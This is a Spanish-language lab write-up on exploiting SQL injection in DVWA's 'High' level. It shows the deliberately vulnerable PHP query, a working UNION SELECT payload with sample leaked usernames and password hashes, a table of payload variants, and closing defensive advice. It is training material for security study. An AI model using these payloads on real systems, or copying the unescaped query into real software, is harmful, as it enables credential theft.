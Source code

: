 # 🛡️ DVWA - SQL Injection (High Level)

En este repositorio se explica cómo explotar una vulnerabilidad **SQL Injection** en el nivel **High** de la aplicación web de pruebas **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Extraer los **nombres de usuario y contraseñas** almacenados en la base de datos, utilizando una **inyección SQL** que se realiza a través de una **variable de sesión (`$_SESSION['id']`)** y no directamente en la URL.

---

## 🕵️ Análisis técnico

### 📂 Recursos: `high.php`

```php
if (isset($_SESSION['id'])) {
    $id = $_SESSION['id'];

    $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query);

    while ($row = mysqli_fetch_assoc($result)) {
        echo "<pre>ID: {$id}<br />First name: {$row['first_name']}<br />Surname: {$row['last_name']}</pre>";
    }
}
```

🔎 **Puntos clave:**

- La consulta SQL es vulnerable porque el valor de `$_SESSION['id']` **no está escapado ni protegido**.
- La inyección SQL es posible si conseguimos modificar el valor de esa variable de sesión.
- El payload que funciona en el nivel **Low** también funciona aquí, como se explica tanto en las Ayudas como en [Aftab Sama's writeup](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high).

---

## 🔧 Paso a paso para explotar la vulnerabilidad

### 1. Acceder a la interfaz para cambiar el ID

Hacemos click en el enlace de Change your ID:

![Link_Cambiar_ID](assets/SQL_Clickhere.png) 

O Navegamos a esta dirección:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/session-input.php
```
![Cuadro_Cambiar_ID](assets/SQL_ChangeID.png) 

Esta página contiene un campo de texto que permite **modificar la variable de sesión `$_SESSION['id']`**.

---

### 2. Inyectar el payload SQL

En el campo de texto, introduce el siguiente valor malicioso:

```
1' UNION SELECT user, password FROM users#
```

📌 Este payload, heredado del nivel bajo, funciona también en el nivel High. Aprovecha que el valor se inyecta directamente en la consulta SQL sin escapado adicional.

Y pulsa el botón **Submit**.

![Usuarios y Contraseñas](assets/SQL_Resultado.png) 

---

### 3. Consultar los resultados

Después de enviar el formulario, serás redirigido automáticamente a:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/high.php
```

Ahí verás los resultados de la inyección SQL. Por ejemplo:

```
ID: 1' UNION SELECT user, password FROM users#
First name: admin
Surname: admin

First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

...
```

Estos valores corresponden a los usuarios y contraseñas almacenadas en la tabla `users` de DVWA.

---

## 🦪 Payloads útiles

| Objetivo                               | Payload                                                       |
| -------------------------------------- | ------------------------------------------------------------- |
| Extraer usuario y contraseña           | `1' UNION SELECT user, password FROM users#`                  |
| Ver solo un usuario (primer resultado) | `1' UNION SELECT user, password FROM users LIMIT 1#`          |
| Ver el segundo usuario                 | `1' UNION SELECT user, password FROM users LIMIT 1 OFFSET 1#` |
| Insertar valores personalizados        | `1' UNION SELECT 'root','toor'#`                              |

---

## ⚠️ Recomendaciones de seguridad

Este ejercicio está diseñado para realizarse en un entorno de pruebas controlado (DVWA). En un entorno real:

✅ Usa **consultas preparadas (prepared statements)**  
✅ Aplica **validación de entradas**  
✅ Escapa correctamente los datos enviados por el usuario  
✅ Limita los permisos de las cuentas de base de datos  
✅ Aplica un firewall de aplicaciones web (WAF)  

---

## 📚 Recursos

- 🔗 [DVWA en GitHub](https://github.com/digininja/DVWA)
- 📖 [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- ▶️ [Vídeo tutorial utilizado](https://youtu.be/5bj1pFmyyBA)
- 📘 [Writeup de Aftab Sama sobre SQLi en DVWA](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high)

---

## 👨‍💼 Autor

**Carlos Peris Navarro**  
Estudiante de Ciberseguridad


